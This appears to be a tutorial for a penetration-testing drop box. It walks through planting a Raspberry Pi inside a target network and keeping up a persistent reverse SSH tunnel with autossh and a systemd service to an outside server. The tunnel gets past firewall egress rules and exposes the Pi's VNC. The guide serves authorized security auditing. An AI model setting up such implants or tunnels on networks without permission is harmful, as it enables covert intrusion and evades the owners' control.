


In a penetration test or security audit of a network, a Raspberry Pi can be planted within the network to act as a man inside. 
By using a third party server across the internet, we can abuse the fact that most firewalls are configured to do strict checking on ingress traffic and are very lax on egress packets. By using an outbound connection we can ignore NAT and port forwarding by tunneling the traffic to a Linux server, this is often referred to as [hole punching](https://en.wikipedia.org/wiki/Hole_punching_(networking)). OpenSSH allows us to do this with some scripting. A crude remote access tool can be created using a Raspberry Pi to conduct information gathering. 

## Required

 - Raspbian Jessie
 - 3rd party internet reachable SSH server (Wiliki, UH Linux, AWS)
 - [AutoSSH](https://linux.die.net/man/1/autossh)

We will be using Linux for this document. Some servers may not have port forwarding enabled for security reason as you 
could spoof IP traffic that looks like its originating from the SSH server. 

On the note of security, I have written the SSH forward to bind to the 'localhost' on our Linux host. This means your 
data is not exposed to the internet. However, it is exposed to all users who can login to the Linux server with a valid 
account. If you are going to use this guide **it is mandatory to change the default password** because other users can 
ind your port number and attempt to login. This can be accomplished by running the following commands as pi:
```
    passwd pi  # Changing your login and sudo password
    sudo passwd -l root # Prevents password login on root
```

We use RSA key pairs for SSH. It is important to note that at the end of this tutorial your Raspberry Pi will contain 
a private key (id_rsa) that allows a login to your Linux server. **If you lose your private key or believe it is 
compromised you must remove it from your authorized_keys file on your remote Linux to prevent someone impersonating your account.** 
## Setting up the Pi
We will utilize public key authentication to allow the Pi to login to Linux without a password prompt. This method utilizes a RSA key pair to bypass the need for a password. 
```
    ssh-keygen # Run as pi
    Enter file in which to save the key (/home/pi/.ssh/id_rsa):
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
```

For the three prompts we will just hit enter (blank), if done successfully you will see:
```
    The key fingerprint is:
	2c:46:eb:55:eb:68:ab:eb:96:8e:b1:90:22:18:08:c1 pi@22364613
	The key's randomart image is:
	+---[RSA 2048]----+
	|o                |
	| E               |
	|.     .   .      |
	|o    . o . .     |
	|o     + S .      |
	|.. . o o o       |
	|+ o . ..o .      |
	|.. . +o. .       |
	|    o+=o.        |
	+-----------------+

This indicates an unique RSA key has been generated in your home/.ssh folder, which we can now see as id_rsa 
(private key) and id_rsa.pub (public key)

	pi@22364613:~/.ssh $ ls -la ~/.ssh/
	total 20
	drwx------  2 pi pi 4096 Jan 29 14:42 .
	drwxr-xr-x 27 pi pi 4096 Jan 29 14:01 ..
	-rw-r--r--  1 pi pi  394 Jan 29 13:51 authorized_keys
	-rw-------  1 pi pi 1675 Jan 29 14:42 id_rsa
	-rw-r--r--  1 pi pi  393 Jan 29 14:42 id_rsa.pub
```

We now need to give Linux our public SSH key so we can authenticate with our private key later. 
We have to find our home directory on Linux by logging in:
```
    pi@22364613:~ $ ssh rosshiga@uhLinux.hawaii.edu
	rosshiga@uhLinux.hawaii.edu's password:
	Last login: Mon Jan 29 15:14:58 2018 m
	Welcome to uhLinux.hawaii.edu
	uhx02:/home/r/rosshiga% pwd
	/home/r/rosshiga
```
	
So my home directory is /home/r/rosshiga. I'll copy my public key to /home/r/rosshiga/.ssh/pi.pub on remote Linux. 
The easiest way to copy files is SSH since both the server and Pi have SSH. 
The `scp` utility will use SSH to copy files on the Pi
```
    pi@22364613:~ $ scp /home/pi/.ssh/id_rsa.pub rosshiga@uhLinux.hawaii.edu:/home/r/rosshiga/.ssh/pi.pub
```
Now we must mark the key as authorized on UH Linux, start by login in to UH Linux and adding the Pi public key to 
authorized_keys
```
    pi@22364613:~ $ ssh rosshiga@uhLinux.hawaii.edu
    Password:
    uhx02:/home/r/rosshiga% cd .ssh
	uhx02:/home/r/rosshiga/.ssh% cat pi.pub >> authorized_keys
```
`cat pi.pub >> authorized_keys` can be broken down. cat "file" will be the contents of the file and >> is a standard 
redirection to append to another file. So what the terminal is doing is reading out out public key and appending it to 
the authorized list. If you are successful at this, future SSH sessions will not require a password on the pi.
```
    pi@22364613:~ $ ssh rosshiga@uhLinux.hawaii.edu
	Last login: Mon Jan 29 15:23:53 2018  # Password: line missing!
	uhx02:/home/r/rosshiga%
```
Once we verify no password is required we can setup forwarding for our VNC port 5900 to UH Linux. First let's verify 
that we can tunnel the VNC port to a test port 4444. (**You should pick your own port number > 10000**)
```
    ssh -v -R localhost:4444:localhost:5900 rosshiga@uhLinux.hawaii.edu
 ```   
This command tells ssh to tunnel the (R)emote (UH Linux) port localhost:4444 to the local port localhost:5900. This in 
effect maps our VNC port to a port on Linux. You will see many debug messages because of the -v option but your are 
looking for a forwarding success message.
```
    debug1: remote forward success for: listen localhost:4344, connect localhost:5900
	debug1: All remote forwarding requests processed
```
If you see a message like:
```
    debug1: remote forward failure for: listen localhost:80, connect localhost:5900
	Warning: remote port forwarding failed for listen port 80
```
	
You did not pick a port larger than 10000 or you picked a port in use. If no port work check to see if port forwarding 
is enabled on the remote server.

## AutoSSH
AutoSSH is a utility that will keep our SSH tunnel connected if the internet becomes unstable. It also handles 
management of dead links and the ability to script the start and stop of the tunnel

Our autossh command is : 
```
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -i /home/pi/.ssh/id_rsa.pub -R localhost:4444:localhost:5900 rosshiga@uhLinux.hawaii.edu
```
If you want to learn more about autossh please check out the documentation for autossh.

We will now add a service file /etc/systemd/system/autossh.service on the Pi:
```
    sudo nano /etc/systemd/system/autossh.service
    # Insert the following
    [Unit]
	Description=VNC Reverse Tunnel
	After=network-online.target

	[Service]
	User=pi
	ExecStart=/usr/bin/autossh -N -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -i /home/pi/.ssh/id_rsa -R localhost:4444:localhost:5900 rosshiga@uhLinux.hawaii.edu
	ExecStop=/usr/bin/pkill autossh
	Restart = always
	RestartSec=25
	[Install]
	WantedBy=multi-user.target
```
	

Once that is saved test the service `sudo systemctl start autossh`, if reported as running by `sudo systemctl status autossh`then enable the autossh service on boot by issuing `sudo systemctl enable autossh`.
## Using the tunnel
All the setup is done and you will no longer need to make any changes on the Pi or Uh Linux. We just need to utilize the 
tunnel. Our tunnel port in this example is 4444. We will use two methods to connect to the Pi.
### OpenSSH (Windows (beta)/OS X/Linux)
Issue this command on your local machine:
```
    ssh -v -L localhost:5900:localhost:4444 rosshiga@uhLinux.hawaii.edu
```
This tells SSH to do a (L)ocal foward from your machine port 5900 to the remote machine localhost:4444. 
In our case it's binding to your port 5900 and forwarding it to port 4444 on Linux, but 4444 on Linux is 5900 on our Pi thus completing the tunnel

### PuTTY
Use this image as a reference for your PuTTY:



### Connecting VNC
You will be able to connect to the Pi using the address localhost:5900 as long as both tunnels (Pi-Linux and Linux-Local) 
are connected. See below


